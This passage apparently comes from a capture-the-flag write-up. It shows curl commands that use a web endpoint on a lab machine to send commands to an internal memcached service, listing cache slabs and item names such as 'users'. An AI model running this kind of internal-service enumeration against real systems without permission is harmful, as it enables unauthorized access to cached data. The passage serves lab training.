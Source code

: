     root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats items' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    STAT items:16:number 1
    STAT items:16:age 11
    STAT items:16:evicted 0
    STAT items:16:evicted_nonzero 0
    STAT items:16:evicted_time 0
    STAT items:16:outofmemory 0
    STAT items:16:tailrepairs 0
    STAT items:16:reclaimed 0
    STAT items:16:expired_unfetched 0
    STAT items:16:evicted_unfetched 0
    STAT items:16:crawler_reclaimed 0
    STAT items:16:crawler_items_checked 0
    STAT items:16:lrutail_reflocked 0
    STAT items:26:number 1
    STAT items:26:age 11
    STAT items:26:evicted 0
    STAT items:26:evicted_nonzero 0
    STAT items:26:evicted_time 0
    STAT items:26:outofmemory 0
    STAT items:26:tailrepairs 0
    STAT items:26:reclaimed 0
    STAT items:26:expired_unfetched 0
    STAT items:26:evicted_unfetched 0
    STAT items:26:crawler_reclaimed 0
    STAT items:26:crawler_items_checked 0
    STAT items:26:lrutail_reflocked 0
    END



#### Get Item Names for Each Slab

Looking at the output from `stats items` and `stats slabs`, I'll notice
that each shows two slab ids: 16 and 26. You can think of these almost
like tables in a database. Each slab is a different group of cached
data.

For each slab, I'll use the `stats cachedump` command (which is actually
an [undocumented
feature](https://blog.elijaa.org/2010/12/24/understanding-memcached-stats-cachedump-command/)).
It will give me each item in the slab, with its size and expiration
timestamp:



    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats cachedump 16 0' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'                         
    ITEM stock [2807 b; 1540823371 s]
    END

    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=stats cachedump 26 0' -H "Cookie: password=secret" | sed -n '/pre/{:a;n;/pre/b;p;ba}'
    ITEM users [24625 b; 1540811452 s]
    END
